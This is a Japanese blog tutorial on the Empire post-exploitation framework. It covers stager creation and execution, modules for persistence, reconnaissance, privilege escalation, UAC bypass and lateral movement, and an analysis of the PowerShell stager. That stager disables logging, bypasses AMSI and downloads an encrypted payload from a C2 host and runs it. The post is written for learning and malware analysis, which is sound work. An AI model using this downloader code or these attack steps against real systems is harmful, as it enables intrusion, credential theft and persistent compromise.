# Empireについての解説

前回、ペネトレーションテストツール(正確にはpost-exploitationツール)のEmpireを使って、CloudFrontingという手法について実践してみました。  
このEmpireについては、有名なツールで解説している人も多いですが、今更ながら私も書いてみたいと思います。  
とはいっても、他と同じように使ってみた、を書いてもあまり意味がありません。なので、私の方ではEmpireのStagerスクリプトの内容(具体的にはpowershellコードの内容)を解説してみたいと思います。  

-----
## 注意  
### これから記載する内容はあくまでも学習目的であり、攻撃等への悪用は行わないでください。試す際は自分の端末等で検証を行ってください。    
-----

## Empireに関するざっくりとした解説

多分、皆さんはmetasploitは知っていると思います。ではmetasploitで脆弱性を攻撃した後、攻撃対象ホストを操作する際に使う一般的なツールはなんでしょう？  
netcatという人もいると思いますが、metasploit専用のツールといえば、metapreterになります。  
この、metapreter+感染用の攻撃コードを生成する機能を含むものが、Empireです。  
まぁ、いって見れば`metapreter+msfvenom`といったところでしょうか。ちなみに類似するものにはkoadicなど様々あります。  

## まずは、Empireを使ってみる。  

前回は、CDN+ALBを利用しましたが、もうこれは必要ないため、今回は直接Empireのホストにアクセスさせる形をとります。  

環境は以下となります。ちなみに私は２つ自前ドメインを持ってるので、せっかくですからブログ用とは違うshibacker.xyzというドメインを利用しました。
(ちなみに持ってる理由はDNSトンネルなどに自由に使えるドメインとして準備してます。どこかでdns2tcpやdnscat2を試してみてもいいですね)  

* クライアントPC
  - OS: Windows 10
  - 環境: VirtualBoxゲスト
* 攻撃ホスト
  - OS: Kali Linux
  - 環境: AWS EC2
  - hostname: penetrationtest.shibacker.xyz
  - ListenerName: https

それでは、Empireを起動してみましょう。  
ちなみにインストール方法及びListenerの作成は以下で説明しているので、ここでは説明しません。  
[Empireを利用したクラウドフロンティング](https://blog.tech-oshiba.com/2022/02/15/%e3%82%af%e3%83%a9%e3%82%a6%e3%83%89%e5%85%a8%e7%9b%9b%e6%99%82%e4%bb%a3%e3%81%ae%e3%83%ac%e3%83%94%e3%83%a5%e3%83%86%e3%83%bc%e3%82%b7%e3%83%a7%e3%83%b3%e3%81%ae%e8%99%9a%e3%81%97%e3%81%95/)

ただ、前回はあまり書かなかった用語だけは書いた方が良さそうなので、いかに書いておきます。  

----
- Listener  

Empire実行後のC2通信先です。ここで作成したListenerと通信するマルウェアを別途stagerの作成で行います。  

- Stager

StagerはEmpire用のマルウェアです。ただし、いって見ればダウンローダーであり、これ自体にはほとんどの機能はありません。これを実行することでEmpireのc2から端末を操作することができます。  

----

前回は、実行の方法を記載してませんでしたが、シンプルな方法としてvbscriptを利用します。  
Empireコンソールにて、以下のようにコマンドを実行してstagerを作成しましょう。  

```bash
usestager windows/launcher_vbs https
generate
# /tmp/launcher.vbsが作成されます
```

さて、これでvbsのファイルは作成されました。これをwindows端末からダウンロードしましょう。  
Windowsへのファイル移動については、好きな方法で構いませんが、ここではpythonのHTTPサーバを立てて、それでダウンロードしましょう。  

```bash
# python2.7のシンプルなワンライナーです
python -m SimpleHTTPServer 80
```

まぁ、当たり前ですが、VBSファイルはWindowsDefenderで検知されて駆除されました。  

||
|:--:|

このシンプルなVBSファイルは当たり前ですが、検出されます。基本的にmshtaやwscript.exeからpowershellのbase64コマンド実行は検出されるのが多いので、そのあたりの調整とコマンドラインの調整が必要だと思います。  
Note: 簡単な方法としてはInvoke-Obfuscationを使うことも有効でしょう。Empireにもバンドルされてますし。  
まぁ、ここでそれについて深くは触れません。怒られそうですから。(コマンドラインでの回避についてはこの後で少し触れます。他でも触れてる一般的な範囲で)  

今はEmpireを動かすことがメインのため、WindowsDefenderの停止した上で実行しましょう。やり方はグループポリシーで停止する方法もセキュリティセンターで停止する方法もありますが、これもここでは触れません。  
さて、無効化してダウンロードし実行をしてみましょう。  

そうすると、Empire側で以下のように接続が確認できます。これで感染は完了です。  

||
|----|

このあとは、agentsで該当agentに対するinteractコマンドで操作モードに入れます。
```bash
agents
# 2REHYSGCはエージェント接続時にEmpireが割り振るランダムなIDです。
# 接続しなおすと同じホストでも変わります。  
interact 2REHYSGC
```

操作ができてるとしたら、軽く試すとしたら例えば以下で電卓の起動を試してみましょう。  
```bash
# shellコマンドは感染端末上でpowershellコマンドの実行です
shell start calc
```

以下のように電卓が起動したら成功です。  
||
|:--:|

さぁ、ここからはこのEmpireで使えることがなんなのかをみてみましょう。  

## Empireでできること

ペネトレーションテストツールなので、meterpreterにできることは大抵できると考えるといいかと思います。  
といってもわからないと思いますので、例えばどういうことをするのかをみていきましょう。  

先に伝えておきますが、実際に問題点の調査をしたい時などは以下のSeatbeltの利用やPowershellMafiaスクリプトの利用など、追加で必要なものは別途取ってきて使う必要があります。  
[seatbelt]  
https://github.com/GhostPack/Seatbelt

[powershellmafia]  
https://github.com/PowerShellMafia/PowerSploit

ここでは、以下の観点でどのようなことができるのか、コマンドを紹介します。本当は試してお見せするのもいいですが、長くなりすぎるのでまた別途。  

- 持続性の確立
- 内部調査
- 権限の昇格(及び資格情報の詐取)
- 横展開系のモジュール

### 持続性の確立

永属性(persistence)とか言われるものですね。PCが再起動されてもマルウェアが動作するようにする、といったものです。  
エラーで落ちるとかもありますし、こういったことが起きてそれで攻撃が終わってしまうなら、一過性の事象になります。しかし、persistenceをつけると、そうはいきません。  
たとえば、スケジュールタスクをつけて置くことで、PCが再起動するたびに起動し直すことが可能です。種類とやり方は代表例として以下をご紹介します。  

1. レジストリ  
- userland(この操作時のユーザログオン時のみ)
```
usemodule persistence/userland/registry
set Listener https
execute
```
これで、以下に自動起動設定が追加されます。(これはHKCUの配下であり、このユーザ以外には影響がありません)  
HKCU¥Software¥Microsoft¥Windows¥CurrentVersion¥Run

- elavated(この端末で誰かログオン時に実行される)  
`UACのバイパスもする必要があります`
```
usemodule persistence/elavated/registry
set Listener https
execute
```

これで、以下に自動起動設定が追加されます。  
HKLM¥Software¥Microsoft¥Windows¥CurrentVersion¥Run

ちなみにどちらもそうですが、類似したものにRunOnceがあったりします。レジストリにはこれ以外にwinlogon/shellなど様々ありますね。  

2. スケジュールタスク

これも、userlandとシステムがありますが、意図は同じのためシンプルにコマンドラインだけ書きます。  

- userland(この操作時のユーザログオン時のみ)
```
usemodule persistence/userland/schtasks
set Listener https
execute
```

- elavated(起動してれば実行される)  
`UACのバイパスもする必要があります`
```
usemodule persistence/elavated/schtasks
set Listener https
execute
```

この端末でAM9:00になったら実行されるタスクとして入っています。以下は画像であり、比べてみてみるとわかりますが、違いはSYSTEMユーザが実行か、ログオンユーザが実行か、になります。


persistenceについては、これ以外に特定のアプリが起動した時のデバッガとしてセットするdebugger設定や、WMIScriptでのPersistenceがあります。  

あと、このEmpireのpersistenceにはありませんがとても有名なpersistence設定にサービス登録があります。(直近(2022/2頃)のEmptetもこのサービスベースのpersistenceを利用します)  

### 内部調査

当たり前ですが、マルウェアは入り込むまで環境についての情報はほとんど知りません(APTの場合は一部把握していることもあるでしょうが、内部は大して知らないのがほとんどでしょう)  

そうなると、入り込んでから様々な情報を取得して現状を把握しより強力な権限のダッシュなど、目的達成のための準備に入ります。  
この内部調査のことをさしています。こういった場合、アクティブとパッシブの操作がありますので、それぞれ少し触れていきます。  
Note: `私の本職は攻撃者ではありませんので、あくまで触りだけです`

```bash
# IP及びDNS、DGWなどの把握
ipconfig /all

# ユーザ情報に関する把握
whoami /all
net user
net user {ユーザ名}
net localgroups

# 通信情報に関する把握
arp -a
ipconfig /displaydns
netstat -an

# その他詳細情報の取得
systeminfo
```

これらは、PC内にある情報の取得となりますので、いってみればパッシブ系の調査となります。これらは全てwindows上で実際に実行することを想定したコマンドですが、こういったことをやらずともEmpireのモジュールで様々な情報を取得することができます。  
こういった場合、使うモジュールとしては以下となります。  
`usemodule situational_awareness`  
`usemodule collection`  

たとえば、以下のようなコマンドを実行するイメージです。  

- localadminのアクセスがあるものを確認  
`powershell/situational_awareness/network/powerview/find_localadmin_access`

- domainuserなどユーザ情報を列挙  
`powershell/situational_awareness/network/powerview/get_user`

- メモやパスワードなど有用なファイルを列挙
`powershell/collection/find_interesting_file`

- クリップボードやブラウザ情報を取得  
`collection/clipboard_monitor`
`collection/browser_data`

これ以外にとるべきものとして、例えばKeyLoggerを仕掛けて、入力を取得する。screenshotをとって画面操作を取得するといったものが可能です。  
Note: 画面操作を取るのにscreenshotを個別に取る意味はあまりないので、psrを仕掛けるのが効率的でしょう  

この次に権限昇格関連を記載しますが、そのための重要な情報をこれらで取得します。  

### 権限昇格  

Windowsでの権限昇格に必要なことはどちらかというと情報をあさって、パスワードを見つけることを頑張るのが多いのではないかな、と思います。  
まぁ、それ以外の方法についてもいかに書いていきましょう。  

ちなみに、権限昇格系のモジュールは以下にまとまってます。  
`usemodule privesc/*`

とりあえず権限昇格を試すなら、metasploitと同じくgetsystemを試すのがあるかと思います。  
`privesc/getsystem`

ただ、実際に問題があるかどうかをチェックするのは以下で有用な情報がないか確認するのもよいでしょう。
`privesc/allchecks`

ただ、個人的にはいっそ聞いてしまうのが一番いいと思います。そういう場合、例えば以下のようなものがあります。大抵の場合、その前に不審な挙動があると認識でもしていない限り、パスワード入力等をしてしまうと思います。  

- プロンプトを出して、ユーザ名とパスワード入力させる
`collection/prompt`

- ダイアログを出して、UACのバイパス状態などで実行させる  
`privesc/ask`

ちなみに、Windows Vista以降ではUACが存在しており、これをバイパスしないと実際にはフルコントロールにはなりません。そのため、管理者権限をとるときには併せてUACのバイパスも必要です。  
いろいろなやり方がありますが、私は上に書いたaskで聞いちゃうのがWindows10では一番成功率が高いと思います。

それ以外に、Windows7では以下のようにeventvwrの悪用がとても安定していて使いやすいように思います。  
- uacbypassでwindows7ならeventvwrが安定している  
`bypassuac_eventvwr`

権限昇格は個人的にはとても難しいフェーズですので、地道な対応が必要です。  

### 横展開  

横展開系のモジュールは以下があります。  
最も有名なのは、psexecではないでしょうか。で、これを検出しづらくしたのが、smbexecです。  
あとは、WMIを利用した横展開もまぁ有名どころといえるでしょう。
その他、powershellのリモート操作をするツールとして、psremotingがあります。

- invoke_psremoting
- invoke_smbexec
- invoke_psexec
- invoke_wmi

これ以外に個人的に多いと思う行動は、scコマンドやschtasksコマンド等で実現できる、他端末でのタスク作成・サービス作成といった行動です。  

-------

すごく長くなってしまいましたが、Empireに関する説明は以上です。なんというか、ここまでの長さがやばいですね。一旦切りたいですが、このレベルの内容だとそこらにあるものと同じなので、続けちゃいましょう。。 

### Stagerコードの解説

さぁ、stagerコードの解説をはじめましょう。  
まず、VBSのコードはざっくり以下のようになっています。  
```vbs
Dim objShell
Set objShell = WScript.CreateObject("WScript.Shell")
command = "powershell -noP -sta -w 1 -enc  SQ～省略～A="
objShell.Run command,0
Set objShell = Nothing
```

この内容は非常に簡単ですね。vbsでpowershellを実行してます。正直、この内容は解説するほどでもありません。  
ただ、この方法だとほぼ間違いなく検知されるので、一般にはテキスト書き込むとか環境変数を利用するとかもうちょっとトリックが必要です。  
まぁ、それは置いておきましょう。では、このpowershellコマンドを解説していきます。  

まずは、base64のデコードをしてみましょう。  
Note:書いてて不安になりましたが、base64を知らない方はwikipediaとかで見てみてください。Basic認証のAuth情報とかhtmlのimageデータなどとか世の中ではありふれてます  
https://ja.wikipedia.org/wiki/Base64  

powershellではコマンドをbase64にエンコーディング(Unicodeでエンコーディングする必要があります)して実行することができます。イメージは以下です。  
```powershell
powershell -ep bypass -e ZQBjAGgAbwAgAHQAZQBzAHQA
# echo test というコマンドが実行されます
```

ちなみにpowershellで、base64をエンコード・デコードするなら以下のコマンドで行えます。
```powershell
# encode
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("echo test"))

# decode
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("ZQBjAGgAbwAgAHQAZQBzAHQA"))
```

stagerコードを全部紐解いたものをそのまま張ると問題になるので、画像で貼ります。



さて、このコードについて内容を説明していきましょう。  
ちなみに、こういう時私は基本的に;と中かっこ「{}」を探します。これらが一般にコードブロックの境目になるからです。また、まずはIEX(Invoke-Expression)を探すのも重要だと思います。  
ちなみに難読化周りの理解をするなら、join, replace, [char]数字, "{0}{3}{1}{2}" -f "h","l","o","el"みたいな記法 なんかを抑えるのがいいかと思います。

それでは見ていきましょう。まずは先頭の以下についてです。  
```powershell
IF($PSVeRSiOnTable.PSVersion.major -GE 3){...}
```

これは、powershellバージョンに関する確認であり、3以上である場合だけやる操作が2つ実行されてます。
1. powershellのロギング無効化
ここでは、Powershellのロギングの無効化を行っています。



2. AMSIのバイパス
このあと、AMSIのバイパスを行います。AMSIはWindows10以降で実装されたスクリプト系のマルウェアに対する非常に重要な機能です。これを使うことでアンチウィルスなどは起動中のシェルで実行されるコマンドを監視できます。



このAMSIのバイパスはスクリプト系マルウェアにとって最大の障壁と言えるかもしれません。  
これが突破できると大体の操作は行える様になります。  
つぎに、このスクリプトが外部通信するための変数定義がなされ、データのダウンロードが行われています。  
```powershell
$wc=new-object system.net.webclient;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc.headers.add('User-Agent',$u);
$wc.proxy=[system.net.webrequest]::defaultwebproxy;
$wc.proxy.credentials = [system.net.credentialcache]::defaultnetworkcredentials;
$Script:Proxy = $wc.Proxy;
# 中略(次に記載します)
$ser='https://penetrationtest.shibacker.xyz:443';
$t='/admin/get.php';
$wc.HEADERS.Add("Cookie","session=6Lbn2FXlfRKIasnIUmKcNiLqPYc=");
$data=$wc.downloaddata($ser+$t);
```

この次は重要なコードになります。それは以下です。  


これは、この点だけだとわかりかねますが、スクリプトコードブロックを定義しており、ラムダ式の関数が定義されてます。呼び出し時は以下になってます。  



ザクっと言ってしまえば、暗号化されているデータの複合化、となります。  
ivはイニシャルベクタでしょう。また、以下で定義しているのがカギ情報と思われます。  
```powershell
$k=[system.text.encoding]::ascii.getbytes('u-pmif60(@gkke#8{d3z&+bds^5a![c2');
```

さぁ、これで最後にダウンロードしたコードはIEXで実行されています。ここまで見てはっきりわかることは、このコマンドはダウンローダに過ぎない、ということです。  
本体のコードはこのIEXで実行されるコードであり、それを持ってきて復号してるだけです。  

デコードすると以下になります。  



色々気になるコードはあると思いますが、注目する点として以下のfunctionが呼ばれてます。  



この関数名について検索すると以下が出てきます。  



このソースコードは結局はこれを実行するためのダウンローダであった、ということになります。  
スクリプトマルウェアの解析に関するいい教材になると思いましたので、ご説明をさせて頂きました。  
どうでしたでしょうか？簡単な内容ではあったと思いますが、入門するためのお役に立っていれば幸いです！  

それでは今回は終了させていただきます。

## ありがとうございました！！